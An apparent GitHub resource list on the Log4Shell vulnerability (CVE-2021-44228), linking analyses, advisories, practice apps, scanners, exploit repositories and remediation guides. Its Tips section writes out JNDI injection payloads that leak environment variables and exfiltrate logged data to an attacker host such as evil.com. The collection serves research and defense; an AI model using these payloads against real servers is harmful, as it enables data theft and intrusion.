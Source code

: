 # TL;DR

![log4shell png](https://user-images.githubusercontent.com/35920302/146170447-915c1f09-8b34-4390-8f1b-95f9cf892c7a.jpeg)
[Source](https://musana.net/2021/12/13/log4shell-Quick-Guide/)

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (First 15 min detail offensive side pretty well)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [PentesterLab Log4j RCE](https://pentesterlab.com/exercises/log4j_rce/course) & [Log4j RCE II](https://pentesterlab.com/exercises/log4j_rce_ii/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse): Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates
- [@SilentSignalHU’s Log4Shell Scanner (Burp extension)](https://twitter.com/Burp_Suite/status/1470418532475314177)
- [ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rule](https://semgrep.dev/r?q=log4j-message-lookup-injection)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Tips
- The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars! [Source](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)
- Some events are only logged when an exception ocur, so specially long payloads with unexpected characters may help you trigger those exceptions. [Source](https://twitter.com/pwntester/status/1470435811812380675)
- If you omit the closing brace `}` (so the payload would look like `${jndi:ldap://evil.com/`), you will potentially get a bunch of data exfiltrated to your server until the next `}` appears in that data. [Source](https://twitter.com/TomAnthonySEO/status/1470374984749133825)

# WAF bypasses

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some impacted apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
  - <https://twitter.com/bl4sty/status/1469259842112086024>
  - [Log4j zero-day gets security fix just as scans for vulnerable systems ramp up](https://therecord.media/log4j-zero-day-gets-security-fix-just-as-scans-for-vulnerable-systems-ramp-up/)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)
